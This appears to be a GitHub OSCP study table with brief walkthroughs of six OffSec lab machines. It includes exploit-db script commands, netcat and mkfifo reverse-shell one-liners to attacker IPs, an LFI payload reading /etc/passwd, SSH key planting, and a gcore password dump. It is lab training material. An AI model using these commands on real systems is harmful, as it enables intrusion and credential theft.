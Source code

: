 |Exfiltrated |Easy |It has port 22, 80 is open with that port 80 has [Subrion CMS v4.2.1](https://www.exploit-db.com/exploits/49876) the command got shell of www-data ```python 49876.py -u http://exfiltrated.offsec/panel/ -l admin -p admin````, with that I saw cronjobs there is /opt/image-exif.sh file with root privileges the [exiftool](https://www.exploit-db.com/exploits/50911) generated a payload with the command ```python3 50911.py -s 192.168.45.171 4444``` it will generate the image.jpg file uploaded into the path `/var/www/html/subrion/uploads` after waiting for some time got the root shell listening on the port.  |
|Pelican |Intermediate |There some port with smb and zookeeper, port 8080 Exhibitor for ZooKeeper v1.0 when open the port 8081 redirecting to port 8080, I saw that zookeeper vulnerability in [exploitDB](https://www.exploit-db.com/exploits/48654) in the port under config tab edit java.env script metion the ``` $(/bin/nc -e /bin/sh 192.168.45.248 8081 &)``` Click Commit -> All At Once -> OK, after some time listen on the port get shell will charles, This user has `sudo -l` gcore [vulnerability](https://gtfobins.github.io/gtfobins/gcore/) identify the process running with root privileges `ps aux <pipe> grep pass` then user ```sudo /usr/bin/gcore 486``` 486 my case the use the output file `strings core.486` you will get the root password use password su root you will be logged as root  |
|Astronaut |Easy |Only 2 ports are open 22, 80, in port 80 has the grav-admin it has vulnerability in exploitDB it has not worked, so searched in [GitHub](https://github.com/CsEnox/CVE-2021-21425) found the code is ```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f<pipe>sh -i 2>&1<pipe>nc 192.168.45.248 4444 >/tmp/f``` intially it failed because in the targer url mentioned / at end error due to limit input values after removing the / it worked URL ```python3 exploit.py -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f<pipe>sh -i 2>&1<pipe>nc 192.168.45.200 80 >/tmp/f' -t http://192.168.207.12/grav-admin```, then using suid initially not found then restart the machine it worked php7.4 suid bit exploit is used [Gifobins](https://gtfobins.github.io/gtfobins/php/#suid) got root shell |
|Blackgate |Hard |There is only 2 ports are open ssh 22 and 6379 redis port, with redis got command execution with with enumeration after shifted to these techniques RCE able to get the revshell with the scripts and commands [here](https://github.com/ashok5141/OSCP/blob/main/OSCP%20Commands.md#redis-6379-usrlocalbinredis-status-privesc) and for privilege escalation their sudo -l privileges with redis-status that required the authorization key with command```sudo /usr/local/bin/redis-status``` got key with that key started and entered the status and in the process entered ```!/bin/bash``` this command got the root shell, new technique in the offsec with reverse engineering, I tried only the above command to root shell.|
|Boolean |Intermediate |There are 3 ports are open ssh, port 80 and port 33017 http in development, port 80 has register and login page in login page tried SQL commands didn't worked so registered user and their is verfication will come to mail added capture the request then sent burpsuite **must play with request and response** response as **"confirmed":"false"** this one made it as confirmed true in encode fromat in the request, sent the request and got 200 OK, then we can do the LFI here **http://192.168.113.231/?cwd=&file=../../../../../../etc/&file=passwd&download=true** we got the passwd file in burpsuite identified the remi user, and if observe the url the file column mention the path and second column is filename, created ssh keys with ssh-keygen with out password copied the ```diff id_rsa.pub authorized_keys``` uploaded the authorized_keys into the /home/remi/.ssh path not in keys folder logged in with  ```ssh -i id_rsa remi@192.168.113.231``` our id_rsa key loggedin as remi user, under remi ssh folder their is root ssh key with root name tried that get Too many authentication failures then user this command ```ssh -o IdentitiesOnly=yes -i /home/remi/.ssh/keys/root root@127.0.0.1``` loggedin as root user got flag followed this [video](https://www.youtube.com/watch?v=uI5zEZV0uvU)|
|Clue |Hard |There are few ports are open ssh, 80 not authorized, port 3000 cassandra, port 8021 Freeswitch, with 49362.py able to read the files only able see the /etc/passwd, then tried ssh keys of the use but no keys. in the ```/proc/self/cmdline``` found the cassie user password but not able login with ssh, the is command execution with freeswitch 47799, but no password found the configuration file ```/etc/freeswitch/autoload_configs/event_socket.conf.xml``` using the 49362 able to read the password then changed the default password in 47799 found in the .xml file, got the freeswitch user, switched the user with cassie password, from here 2 ways cassie user path has id_rsa copy the file to kali linux then loggedin as root, another way is sudo -l has 'cassandra-web' started web server internally able to read the /etc/shadow and read the anthony/.bash_history has some commands with anothony's id_rsa to logging with root user [command are here](https://github.com/ashok5141/OSCP/blob/main/OSCP%20Commands.md#cassandra-freeswitch-event-linux) |